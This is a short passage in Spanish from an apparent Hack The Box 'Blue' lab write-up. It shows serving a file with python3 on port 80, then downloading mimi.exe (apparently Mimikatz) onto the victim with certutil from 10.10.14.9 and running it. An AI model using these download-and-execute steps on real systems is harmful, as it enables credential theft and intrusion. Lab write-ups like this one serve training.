 Ahora nos vamos a transferir el archivo con python3 por el puerto 80 a la maquina victima 

```bash
python3 -m http.server 80
```

Ahora nos descargamos el archivo desde la maquina victima haciendo uso de certutil

```powershell
certutil.exe -f -urlcache -split http://10.10.14.9/mimi.exe
```

![download file.png](/assets/images/htb-writeup-blue/download_file.png)

Listo ya tendríamos el archivo en la maquina victima

Ahora a ejecutar nuestro archivo

```powershell
mimi.exe
```

![mimikatz.png](/assets/images/htb-writeup-blue/mimikatz.png)
